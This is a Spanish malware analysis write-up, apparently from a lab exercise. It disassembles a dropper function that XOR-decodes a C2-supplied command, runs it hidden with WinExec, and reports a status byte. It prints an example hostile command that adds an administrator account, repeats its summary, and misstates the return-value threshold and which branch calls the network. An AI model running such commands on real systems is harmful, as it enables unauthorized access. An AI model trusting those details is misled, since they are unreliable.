


# FUN_00402050 - Opcode 3

La función FUN_00402050 es el funcionamiento típico de un dropper / downloader:
- Decodifica un buffer de 256 bytes (0x100) usando XOR 0x55.
- Intenta ejecutar ese buffer como comando con WinExec().
- WinExec es una API antigua de Windows que ejecuta comandos o aplicaciones con nombre, sin redirección de consola.
- Reporta el resultado al servidor C2, dependiendo de si la ejecución fue exitosa o no.

## Análisis paso a paso:

### 1. Inicialización:
- `MOV ECX, dword ptr [ESP + param_2]`: Carga en el registro ECX la dirección de memoria de una cadena de caracteres (el segundo parámetro de la función). Esta cadena está actualmente cifrada.
- `XOR EAX, EAX`: Pone a cero el registro `EAX`, que se usará como contador del bucle.

### 2. Bucle de decodificación (LAB_00402056):
- El bucle se ejecuta 256 veces (desde `EAX=0` hasta `EAX=0xFF`, ya que `CMP EAX`, `0x100 y JL` significa "saltar si es menor").
- `MOV DL, byte ptr [EAX + ECX*0x1]`: Coge un byte de la cadena cifrada.
- `XOR DL, 0x55`: Esta es la clave. Realiza una operación XOR entre el byte del malware y la clave estática 0x55. Esta es una técnica de cifrado simétrico muy simple y común.
- `MOV byte ptr [EAX + ECX*0x1]`, DL: Sobrescribe el byte cifrado original con el nuevo byte decodificado.
- `INC EAX`: Incrementa el contador para pasar al siguiente byte.

### 3. Ejecución del comando:
- `PUSH 0x0 y PUSH ECX`: Prepara los argumentos para la función `WinExec`. `ECX` ahora apunta a la cadena recién decodificada y `0x0 (SW_HIDE)` le dice a Windows que ejecute el comando en una ventana oculta.
- `CALL dword ptr [->KERNEL32.DLL::WinExec]`: Llama a la función `WinExec` de la API de Windows, que ejecuta la cadena decodificada. Esta cadena podría ser cualquier cosa, como `"calc.exe", "cmd.exe /c net user admin pass /add"` o una ruta a otro malware.

### 4. Comprobación y acción secundaria:
- `CMP EAX, 0x1f`: Comprueba el valor de retorno de `WinExec`. Un valor mayor que `31 (0x1f) significa que la ejecución fue exitosa.
- Si la ejecución no fue exitosa (JLE salta si es menor o igual), el código llama a una función de la librería de sockets de Windows (`WS2_32.DLL`). Esto sugiere que si no puede ejecutar el comando local, podría intentar realizar una acción de red, como conectarse a un servidor de Comando y Control (C2) para reportar el error o descargar otra carga útil.


## Resumiendo
El malware no exfiltra la salida estándar del comando (lo que imprimiría whoami o ipconfig). Lo que hace es:
- Recibir el bloque de 256 B XOR-eado desde el C2.
- Decodificarlo (XOR 0x55) → obtiene el comando (ej. "cmd.exe /c whoami").
- Llamar a WinExec(cmd, 0).
- Revisar el valor de retorno de WinExec:
        - > 31h (49 decimal) = éxito.
        - ≤ 31h = error.
- Reportar sólo 2 bytes de estado al servidor (por lo que ves en el listener b'0\x00' con HEX=30 00).

Es decir:  
🔹 Ejecuta el comando en la VM infectada.  
🔹 Pero solo manda de vuelta al C2 un estado binario (ejecutado correctamente o error), nunca el output.  

Por eso en el listener lo único que recibe son esos 2 bytes de estado (0x30 00, que corresponde al éxito en whoami).








# Análisis dinámico de Opcode 3

## Listener en python para poder probar este opcode
[listener-opcode3.py](../analisis-dinamico/listener-opcode-3.py)

Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode3.py
```


El malware no exfiltra la salida estándar del comando (lo que imprimiría whoami o ipconfig). Lo que hace es:
- Recibir el bloque de 256 B XOR-eado desde el C2.
- Decodificarlo (XOR 0x55) → obtiene el comando (ej. "cmd.exe /c whoami").
- Llamar a WinExec(cmd, 0).
- Revisar el valor de retorno de WinExec:
        - > 31h (49 decimal) = éxito.
        - ≤ 31h = error.
- Reportar sólo 2 bytes de estado al servidor (por lo que ves en el listener b'0\x00' con HEX=30 00).

Es decir:  
🔹 Sí ejecuta el comando en la VM infectada.  
🔹 Pero solo manda de vuelta al C2 un estado binario (ejecutado correctamente o error), nunca el output.  

Por eso en el listener lo único que recibe son esos 2 bytes de estado (0x30 00, que corresponde al éxito en whoami).

Terminar su ejecución y regresa al switch para pedir optro opcode al host C2.

```
        00402043 90 90 90        align      align(13)
                 90 90 90 
                 90 90 90 
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_00402050(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     00402050(R)  
                             FUN_00402050                                    XREF[1]:     FUN_004012f0:00401740(c)  
        00402050 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        00402054 33 c0           XOR        EAX,EAX
                             LAB_00402056                                    XREF[1]:     00402065(j)  
        00402056 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        00402059 80 f2 55        XOR        DL,0x55
        0040205c 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        0040205f 40              INC        EAX
        00402060 3d 00 01        CMP        EAX,0x100
                 00 00
        00402065 7c ef           JL         LAB_00402056
        00402067 6a 00           PUSH       0x0
        00402069 51              PUSH       ECX
        0040206a ff 15 30        CALL       dword ptr [->KERNEL32.DLL::WinExec]              = 0000990a
                 90 40 00
        00402070 83 f8 1f        CMP        EAX,0x1f
        00402073 6a 00           PUSH       0x0
        00402075 6a 02           PUSH       0x2
        00402077 7e 11           JLE        LAB_0040208a
        00402079 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        0040207d 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        00402082 50              PUSH       EAX
        00402083 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00402089 c3              RET
```

